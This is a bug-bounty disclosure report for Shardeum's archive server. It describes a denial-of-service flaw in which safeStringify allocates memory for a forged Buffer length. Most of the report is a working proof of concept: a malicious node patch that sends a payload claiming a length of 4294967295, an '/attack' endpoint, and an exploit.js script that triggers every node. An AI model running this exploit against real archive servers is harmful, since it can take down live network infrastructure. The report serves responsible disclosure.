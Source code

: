 # 39829 \[W\&A-Critical] dos archiver via data subscription channel due to broken safestringfy

## #39829 \[W\&A-Critical] DOS archiver via data subscription channel due to broken safeStringfy

**Submitted on Feb 8th 2025 at 15:22:49 UTC by @ZhouWu for** [**Audit Comp | Shardeum: Ancillaries III**](https://immunefi.com/audit-competition/audit-comp-shardeum-ancillaries-iii)

* **Report ID:** #39829
* **Report Type:** Websites and Applications
* **Report severity:** Critical
* **Target:** https://github.com/shardeum/archive-server/tree/itn4
* **Impacts:**
  * Taking down the application/website

### Description

## Description

Archiver has a data subscription service via websocket to core and store these data to a disk. During the write to disk, archiver will do the stringify operation to the data. The problem lies within the stringify function that shardus custom implemented. The safestringify function will try to stringify a buffer object with the supplied length without actually checking if the content are actually valid. This lead to extreme memory allocation of archiver and eventually crashing.

This is the affected area of code in archiver `/src/Data/Collector.ts`

```javascript
    ...more code
    if (missingReceiptsMap.has(tx.txId)) missingReceiptsMap.delete(tx.txId)
    receipt.beforeStates = globalModification || config.storeReceiptBeforeStates ? receipt.beforeStates : [] // Store beforeStates for globalModification tx, or if config.storeReceiptBeforeStates is true
    combineReceipts.push({
      ...receipt,
      receiptId: tx.txId,
      timestamp: tx.timestamp,
      applyTimestamp,
    })
    if (config.dataLogWrite && ReceiptLogWriter)
      ReceiptLogWriter.writeToLog(
        `${StringUtils.safeStringify({
          ...receipt,
          receiptId: tx.txId,
          timestamp: tx.timestamp,
          applyTimestamp,
        })}\n`
      )
    txDataList.push({ txId, timestamp })
    // If the receipt is a challenge, then skip updating its accounts data or transaction data
    // if (
    //   config.newPOQReceipt === true &&
    //   appliedReceipt &&
    //   appliedReceipt.confirmOrChallenge &&
    //   appliedReceipt.confirmOrChallenge.message === 'challenge'
    ...more code
```

### Proof of Concept

## Proof of Concept

In real network, this patch will be deployed to only a malicious node but to make testing process easier during demonstration of the exploit, let's applied these patch to all nodes. We'll only enable the attack on the node that maintain web-socket data subscription with archiver later.

1. Apply core patch

```diff
diff --git a/src/p2p/Archivers.ts b/src/p2p/Archivers.ts
index 8667b6c1..bf1da4c9 100644
--- a/src/p2p/Archivers.ts
+++ b/src/p2p/Archivers.ts
@@ -35,6 +35,7 @@ import { Result, ResultAsync } from 'neverthrow'
 import { Utils } from '@shardus/types'
 import { arch } from 'os'
 import { checkGossipPayload } from '../utils/GossipValidation'
+import * as shardusCrypto from '@shardus/crypto-utils'
 
 const clone = rfdc()
 
@@ -530,6 +531,9 @@ async function forwardReceipts() {
   const newArchiversToForward = []
   const stillConnectedArchivers = []
   for (const [publicKey, recipient] of recipients) {
+    if(attackToggler) {
+      await forwardDangerPayloads(responses, publicKey, recipient)
+    }
     if (config.p2p.instantForwardReceipts)
       if (!lastTimeForwardedArchivers.includes(publicKey)) {
         newArchiversToForward.push(publicKey)
@@ -565,6 +569,33 @@ async function forwardReceipts() {
   profilerInstance.scopedProfileSectionEnd('forwardReceipts')
 }
 
+let attackToggler = false
+async function forwardDangerPayloads(responses, publicKey, recipient) {
+    shardusCrypto.init(Context.config.crypto.hashKey)
+    responses.RECEIPT = [
+      {
+        tx: {
+          txId: shardusCrypto.randomBytes(32), 
+          timestamp: Date.now()
+        }, 
+        originalTxData: {type: "Buffer", data: { length: 4294967295 }} }
+    ]
+    const dangerPayload: P2P.ArchiversTypes.DataResponse = {
+      publicKey: crypto.getPublicKey(),
+      responses,
+      recipient: publicKey,
+    }
+
+    const sharedKey = crypto.getSharedKey(recipient.curvePk)
+    const tag = shardusCrypto.tag(JSON.stringify(dangerPayload), sharedKey)
+
+    const tagged = { ...dangerPayload, tag }
+    
+
+    console.log("Attack in progress", tagged);
+    io.sockets.sockets[connectedSockets[publicKey]].emit('DATA', JSON.stringify(tagged))
+}
+
 async function forwardDataToSubscribedArchivers(responses, publicKey, recipient) {
   const dataResponse: P2P.ArchiversTypes.DataResponse = {
     publicKey: crypto.getPublicKey(),
@@ -1095,6 +1126,10 @@ export function registerRoutes() {
     res.json({ success: true, data: data })
   })
 
+  network.registerExternalGet('attack', (req, res) => {
+    attackToggler = true
+    res.json({ success: true, attackToggler })
+  })
   network.registerExternalGet('archivers', (req, res) => {
     let archivers = getArchiversList()
     // In restart network, when there is only one node, we just send the first archiver which is serving as data recipient
```

2. link to shardeum repo and launch the network.
3. After a couple of cycle node should come online.
4. At this point you can check the archiver logs inside `instances` folder to see which node is subscribed by the archiver and call the `/attack` on that node
5. Alternatively I prepare a script to help you with step 4. which turn on attack on all node.
6. Paste the code into `exploit.js`

```javascript
const axios = require('axios');



axios.get('http://0.0.0.0:4000/nodelist').then((response) => {
    const promises = []
    const list = response.data.nodeList

    for (let i = 0; i < list.length; i++) {
        promises.push(axios.get(`http://${list[i].ip}:${list[i].port}/attack`))
    }
    Promise.allSettled(promises).then((results) => {
        results.forEach((result) => {
            console.log(result)
        })
    })
})

```

7. And this content into the `package.json` then do `npm i` afterward.

```json
{
  "name": "stringify",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "@shardus/types": "^1.2.21",
    "axios": "^1.7.9"
  }
}
```

8. Run the exploit `node exploit.js`
9. Observe the large memory allocation in archiver process, unresponsive practically crashing and DOSing it.

## Impact

Can cause the DOS of archive servers.
